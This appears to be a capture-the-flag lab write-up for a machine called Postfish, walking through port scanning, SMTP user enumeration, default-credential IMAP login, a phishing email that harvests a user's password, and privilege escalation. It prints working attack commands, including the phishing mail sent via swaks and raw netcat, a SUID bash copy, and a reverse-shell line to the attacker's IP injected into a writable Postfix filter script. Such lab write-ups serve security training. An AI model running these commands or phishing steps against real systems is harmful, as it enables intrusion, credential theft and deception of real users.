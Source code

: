 # Postfish

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 14:08 +08
Nmap scan report for 192.168.183.137
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s
```

This box involves testing mail services. We have to add `postfish.off` to our `/etc/hosts` file to view the website on port 80.&#x20;

### Web Enumeration

The website looked rather static:

<figure><img src="../../../.gitbook/assets/image (2903).png" alt=""><figcaption></figcaption></figure>

There was a 'Team' page, and when viewed we get some names and roles:

<figure><img src="../../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>

Interesting.

### SMTP Enumeration --> Phishing Link

The website had nothing else to offer, so I went looking for exploits pertaining to the mail servers. I tested some usernames and departments like HR, and found HR existed on the server:

```
$ smtp-user-enum -M VRFY -u HR -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:15:41 2023 #########
192.168.183.137: HR exists
```

I tried some low hanging fruits, like logging in with `hr:hr` and `postfish:postfish`. Eventually, `sales:sales` worked on IMAP:

{% code overflow="wrap" %}
```
$ nc -nv 192.168.183.137 143
(UNKNOWN) [192.168.183.137] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN] Dovecot (Ubuntu) ready.
A1 LOGIN sales sales
A1 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```
{% endcode %}

I was able to find one message present within the Inbox:

```
A1 STATUS INBOX (MESSAGES UNSEEN RECENT)
* STATUS INBOX (MESSAGES 1 RECENT 1 UNSEEN 1)
A1 OK Status completed (0.001 + 0.000 secs).
```

We can read this message:

{% code overflow="wrap" %}
```
A1 SELECT INBOX
A1 FETCH 1 body[text]
* 1 FETCH (FLAGS (\Seen \Recent) BODY[TEXT] {153}
Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
)
A1 OK Fetch completed (0.001 + 0.000 secs).
```
{% endcode %}

So there's some password reset links being sent out, and perhaps we can trick a user into clicking on our link. I used `swaks` to send an email to send emails:

{% code overflow="wrap" %}
```bash
$ swaks --to SALES@postfish.off --from IT@postfish.off --header "Subject:Password Reset" --body "Click here to reset your password! http://192.168.45.208/password" --server 192.168.183.137
```
{% endcode %}

The above doesn't work, so I used 'Brian Moore', which is the name of the user part of the Sales team based on the website. There are tons of username generators online based on a name:

```bash
$ python2 username.py -n 'brian moore' > usernames
$ sed -i s/$/@postfish.off/ usernames
```

Afterwards, we can test which user is present on the server:

```
$ smtp-user-enum -M VRFY -U usernames -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usernames
Target count ............. 1
Username count ........... 93
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:31:35 2023 #########
192.168.183.137: @postfish.off exists
192.168.183.137: brian.moore@postfish.off exists
######## Scan completed at Wed Jul 12 14:31:49 2023 #########
```

`brian.moore` exists, so let's send an email to him and start a listener port to see if he clicks on our link. `swaks` doesn't seem to work for some reason, so we can just use `nc`:

```
$ nc -vn 192.168.183.137 25

MAIL FROM: IT@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Hello, 

Reset password here. http://192.168.45.208/

.

QUIT
```

After the mail sends, we get a callback on our listener port with creds:

<figure><img src="../../../.gitbook/assets/image (3586).png" alt=""><figcaption></figcaption></figure>

We can use this password to `ssh` in as `brian.moore`:

<figure><img src="../../../.gitbook/assets/image (3844).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mail Disclaimer --> Filter Shell

I ran a `linpeas.sh` scan on the machine, and it found this interesting folder:

```
[+] Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Jul 12 06:42 /etc/postfix/disclaimer
```

It was a `bash` script:

```bash
brian.moore@postfish:~$ cat /etc/postfix/disclaimer
#!/bin/bash
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

####### Changed From Original Script #######
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
####### Changed From Original Script END #######

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

####### Changed From Original Script #######
# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi
####### Changed From Original Script END #######

$SENDMAIL "$@" <in.$$

exit $?
```

Users part of the `filter` group can write to this, and `brian.moore` is part of that group. I added this to the script:

```bash
cp /bin/bash /tmp
chmod u+s /tmp/bash
bash -i >& /dev/tcp/192.168.45.208/21 0>&1
```

This script is triggered by sending emails, so we can send another one to the machine without the phishing link to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (2120).png" alt=""><figcaption></figcaption></figure>

### Sudo Mail --> Root

This new user can execute `mail` using `sudo`:

```
filter@postfish:/var/spool/postfix$ sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

We can get a `root` shell using the commands from GTFOBins:

<figure><img src="../../../.gitbook/assets/image (1536).png" alt=""><figcaption></figcaption></figure>
